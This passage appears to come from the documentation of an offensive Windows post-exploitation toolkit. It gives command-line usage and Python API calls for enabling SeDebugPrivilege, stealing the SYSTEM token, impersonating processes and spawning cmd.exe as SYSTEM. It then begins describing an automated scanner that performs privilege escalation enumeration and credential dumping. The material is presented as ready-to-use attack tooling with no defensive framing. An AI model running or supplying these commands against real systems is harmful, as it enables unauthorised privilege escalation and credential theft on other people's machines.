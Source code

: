 **Usage:**

```bash
# List current privileges
python persistence/token_manipulation.py --list-privileges

# Enable SeDebugPrivilege
python persistence/token_manipulation.py --enable-privilege SeDebugPrivilege

# Steal SYSTEM token
python persistence/token_manipulation.py --steal-system

# Impersonate specific process
python persistence/token_manipulation.py --impersonate-pid 1234

# Spawn cmd with SYSTEM token
python persistence/token_manipulation.py --steal-system --spawn-cmd
```

**Python API:**

```python
from persistence.token_manipulation import TokenManipulation

token_manip = TokenManipulation()

# Enable SeDebugPrivilege
token_manip.enable_privilege('SeDebugPrivilege')

# Steal SYSTEM token
h_system_token = token_manip.steal_system_token()

if h_system_token:
    # Create cmd.exe as SYSTEM
    token_manip.create_process_with_token(h_system_token, "cmd.exe")

    # Or impersonate
    token_manip.impersonate_token(h_system_token)

    # Do elevated actions...

    # Revert
    token_manip.revert_to_self()

# Cleanup
token_manip.cleanup()
```

### 6. Automated Scanner (`persistence/automated_scanner.py`)

Comprehensive automated post-exploitation scanner.

**Features:**
- Automated privilege escalation enumeration
- Credential dumping (aggressive mode)
- Result analysis and recommendations
- Comprehensive reporting
- JSON export
